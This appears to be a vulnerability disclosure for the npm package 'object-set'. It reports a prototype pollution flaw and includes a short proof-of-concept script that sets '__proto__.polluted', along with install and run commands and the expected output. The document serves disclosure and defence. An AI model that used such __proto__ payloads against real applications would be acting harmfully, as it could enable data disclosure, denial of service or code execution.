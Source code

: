 # Description

`object-set` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior using a `__proto__` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var objectSet = require("object-set")
objectSet({}, '__proto__.polluted', 'Yes! Its Polluted');
console.log(polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i object-set # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```

